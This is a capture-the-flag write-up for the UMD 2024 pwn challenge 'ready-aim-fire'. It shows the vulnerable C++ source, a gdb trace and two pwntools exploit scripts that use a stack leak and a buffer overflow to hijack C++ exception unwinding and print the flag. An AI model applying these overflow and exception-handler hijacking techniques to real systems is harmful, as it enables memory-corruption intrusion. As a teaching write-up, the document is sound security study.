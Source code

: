 ```yaml
---
title: ready-aim-fire
date: 2024-04-26T14:23:28+03:00
description: Writeup for ready-aim-fire [UMD 2024]
type: writeup
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was a fun challenge which I solved in an unintended way, I will also present the intended solution because it's very interesting. 
We get the source code (and binary) for this challenge and we can see that we have a BOF in the fire method from the Cannon object and we also have a stack leak.

```C
void print_flag() {
    ifstream f{"./flag.txt"};
    if (!f.is_open()) {
        cout << "Failed to open flag file. Contact CTF organizers if you see this error." << endl;
    } else {
        string flag;
        f >> flag;
        cout << flag << endl;
    }
}


void direct_hit() {
    try {
        throw exception{};
    } catch (exception e) {
        cout << "Direct hit!" << endl;
        print_flag();
    }
}

class Cannon {
public:
    int bufIndex;
    char buf[32];

    Cannon(): bufIndex(0) {}

    void fire() {
        char c ;
        for (;;) {      
            cin.get(c);   
            if (c == '\n') {
                break;
            } else {
                buf[bufIndex++] = c;  // <-- overflow     
            }
        }
        if (bufIndex >= 32) {
            throw out_of_range{""};
        }
    }
};

void fire_weapon() {
    Cannon w;
    w.fire();
}

int main() {
    int target_assist;
    cout << "Quick! While the spice harvester's shields are down! Fire the laser cannon!" << endl;
    cout << &target_assist << endl;  // <-- stack leak 

    try {
        fire_weapon();
        cout << "Looks like you missed your opportunity to fire." << endl;
    }
    catch (exception e) {
        cout << "Seems like you missed." << endl;
    }
}
```

We can see that there is a constraint though, if we do a BOF, it will trigger an exception, which will be caught in the main function. Additionally, I noticed an extra function called 'direct_hit,' which suggested that we should attempt to redirect the exception thrown during a BOF into the catch block of 'direct_hit()' to print the flag (the intended solution). Unfortunately, my implementation didn't work as expected. Therefore, my next idea was to overwrite the return address of the main function with the address of 'print_flag()' after the exception was triggered.

### Solution

#### Unintended

When first trying to do the BOF with an input of length 33 the program crashed in the exception handler and printed "Seems like you missed.". 
If we give an input longer than 44 we will start overwriting the RBP and the program will crash. 
This happens because we don't return in a 'normal' way to main but through exception throwing.

We can see in the image below that the RBP value is used in the exception handler, which is called when the bufferIndex is greater than 32 (input: "A"*44 + "X"*8).

```c
0x00007ffd8a60ad20│+0x0000: "XXXXXXXX+'@"        ← $rsp, $rbp   <-- crash  
0x00007ffd8a60ad28│+0x0008: 0x000000000040272b  →  <main+270> mov rax, rbx  
0x00007ffd8a60ad30│+0x0010: 0x004023e630303030
0x00007ffd8a60ad38│+0x0018: 0x004023e600000000
0x00007ffd8a60ad40│+0x0020: 0x004023e600000000
0x00007ffd8a60ad48│+0x0028: 0x004023e600000000
0x00007ffd8a60ad50│+0x0030: 0x004023e600000000
0x00007ffd8a60ad58│+0x0038: 0x004023e600000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40283a <std::exception::exception(std::exception const&)+12> mov    QWORD PTR [rbp-0x10], rsi
     0x40283e <std::exception::exception(std::exception const&)+16> lea    rdx, [rip+0x255b]        # 0x404da0 <_ZTVSt9exception@GLIBCXX_3.4+16>
     0x402845 <std::exception::exception(std::exception const&)+23> mov    rax, QWORD PTR [rbp-0x8]
●→   0x402849 <std::exception::exception(std::exception const&)+27> mov    QWORD PTR [rax], rdx
     0x40284c <std::exception::exception(std::exception const&)+30> nop    
     0x40284d <std::exception::exception(std::exception const&)+31> pop    rbp
     0x40284e <std::exception::exception(std::exception const&)+32> ret    
     0x40284f                  nop    
     0x402850 <Cannon::Cannon()+0> endbr64 

```

To address this issue, we need a valid address for RBP after our input of length 44. This address can be the stack leak we get.
Because the stack leak address and the address where RBP is used are very close, we need to add an offset to avoid interfering with the stack when executing future instructions. Therefore, I subtracted 0x10 from the stack leak address.
The goal here is to make the exception execute normally so that we return to main and overwrite the return address of main. 
To achieve this, I needed to replicate the stack.
So I extended the payload with an address that was normally on the stack (this was found by running the program with gdb),
ensuring that the exception would execute smoothly and return in the the main function.
To complete the exploit, I added the address of the print_flag function to the end of the payload. 


```py
payload = b"a"*44 


print_flag = p64(0x4023e6) 
og_main = p64(0x4026be) # replicate stack 
 

target.recvuntil(b"Fire the laser cannon!")
recvline = target.recvline()
print(recvline)

stack_leak = target.recvline()
print(hex(int(stack_leak.decode(),16)))
stack_leak = p64((int(stack_leak.decode(),16))-0x10) 

payload += stack_leak 

payload += og_main   
payload += b"0000"+print_flag 
target.sendline(payload)
target.interactive()
```

Although I like this solution the intended one is more elegant.

#### Intended

The intended solution is similar to the unintended one but the main idea is to just overwrite the exception catch from fire() to the one from direct_hit().

```py
target  .recvuntil(b"Fire the laser cannon!")
recvline =  target.recvline()
stack_leak =  target.recvline()
stack_leak = p64((int(stack_leak.decode(),16))-0x10)
payload += stack_leak 
payload += p64(0x402547) # catch from direct_hit
target.sendline(payload)
```

Some other interesting things about the exception handler is that it works stack frame by stack frame. When an exception is thrown the current RIP searches in the .eh_frame section if it's in a catch block in that function. If it's found then it will jump to the catch block otherwise it will unwind the stack to clean it. After this it uses the stored return address to repeat this process on the next stack frame and comparing it to the .eh_frame table. The process goes on until either the exception is caught or it reaches the base exception handler.





